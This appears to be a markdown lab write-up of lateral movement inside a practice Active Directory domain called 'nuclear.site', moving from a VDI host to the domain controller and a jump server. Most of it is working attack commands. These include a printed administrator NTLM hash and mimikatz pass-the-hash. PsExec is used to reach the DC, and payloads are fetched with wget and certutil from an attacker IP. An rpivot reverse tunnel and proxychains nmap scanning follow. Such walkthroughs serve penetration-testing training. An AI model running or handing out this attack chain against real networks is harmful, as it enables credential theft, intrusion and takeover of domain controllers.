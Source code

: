 # Lateral Movement 1 - From VDI to DC

- [Lateral Movement 1 - From VDI to DC](#lateral-movement-1---from-vdi-to-dc)
  - [Access Nuclear DC](#access-nuclear-dc)
  - [Enumerate Domain](#enumerate-domain)
  - [Enumerate Jump-Server](#enumerate-jump-server)

----

## Access Nuclear DC

Domain Admin `administrator` NTLM: `4fc382c2e14308faef3de7494a08f27a`

<br/>

First check the DC hostname and IP:

```
nslookup -type=any _ldap._tcp.dc._msdcs.nuclear.site
```

![picture 27](images/31c20335dfe34c5685d340eaafd8d02216180c7c2d15eb7fff7485f86b637d75.png)  

* `nuclear-dc.nuclear.site`
* `10.1.1.3`

<br/>

Again, use over-pass-the-hash technique:

```
.\mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::pth /domain:nuclear.site /user:administrator /ntlm:4fc382c2e14308faef3de7494a08f27a /run:cmd.exe
```

![picture 28](images/373ce896490c55ef9d1ae3afa09572f44767d722c84f8fe45d0c3a0076915f46.png)  

<br/>

Then run powershell and PSRemote to `nuclear-dc`:

```
powershell -ep bypass
```

```
Enter-PSSession -ComputerName nuclear-dc.nuclear.site
```

![picture 29](images/e3071c80c13d0dea55ce29f69925d81d7d909267628d9595f639d013744939f7.png)  

* However, error occurs.

<br/>

Try to list C$ on the DC:

```
dir \\nuclear-dc.nuclear.site\c$
```

![picture 30](images/01b9caa020c1814767d820b95241f126a0488989397d2b89de3598d75e59bdc8.png)  

- As shown, we have the privilege to access the DC.

<br/>

Instead, use `PsExec.exe` to access Nuclear-DC:

```
wget http://192.168.100.11/PsExec.exe -OutFile .\PsExec.exe
```

```
.\PsExec.exe \\nuclear-dc.nuclear.site cmd.exe
```

![picture 31](images/456edc5dbdb51bfb0bc0b594cd82b36cab77977ab6a2172f37579e28758735e7.png)  

<br/>

## Enumerate Domain

Enuemrate domain users:

```
net user /domain
```

![picture 36](images/9b4a0c480d7e944a9e89b93689f9d6e4e365f1210d961028017b220dbeef549b.png)  

<br/>

To query the domain computers:

```
netdom query /d:nuclear.site WORKSTATION && netdom query /d:nuclear.site SERVER
```

![picture 32](images/0b8518becacde77feaa16f695597dbf7cfeeaf0c2fc16426f44fe2d21826627c.png)  

<br/>

## Enumerate Jump-Server

Check the IP address of JUMP-SERVER:

```
nslookup JUMP-SERVER
```

![picture 33](images/0407ce4ff27b25cb998c85ecf3b84216887f747094615787b6be5dc632a9b807.png)  

* Jump-Server - `10.1.1.4`

To get more information about `10.1.1.4`, enumerate using `nmap`.

First use `rpivot` to establish a tunneled connection. On the attacker machine, launch `rpivot` server:

```
python server.py --server-port 8082 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9051
```

<br/>

On nuclear-dc:

```
cd C:\Users\Public && certutil -urlcache -f http://192.168.100.11/client.exe .\client.exe
```

```
client.exe --server-ip 192.168.100.11 --server-port 8082
```

![picture 34](images/218a2772454d482bb53c0c58c26e931ee543758b5c67c3ee8719f460119efd73.png)  

<br/>

Then perform nmap scanning via Proxychains:

```
proxychains nmap -Pn -sT -T4 10.1.1.4 --top-ports 20 --min-rate 10000
```

![picture 35](images/63b1e8638dc1354053690ad6a0094be7c591573576ad8a6a2b75aaf7595e9f31.png)  

- Only `SSH` is opened for the top 20 ports.

<br/>

